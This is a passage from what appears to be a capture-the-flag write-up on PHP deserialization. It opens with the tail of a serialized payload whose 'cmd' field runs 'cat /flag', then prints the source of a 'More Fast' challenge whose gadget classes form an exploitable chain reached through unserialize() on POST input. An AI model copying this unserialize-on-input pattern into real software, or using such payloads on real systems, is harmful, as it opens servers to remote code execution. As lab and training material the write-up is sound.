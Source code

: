 ```
key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}
```

![image-20231031230621719](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231031230621719.png)

### More Fast

#### 源代码：

```php
 <?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}
class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}
class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}
$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```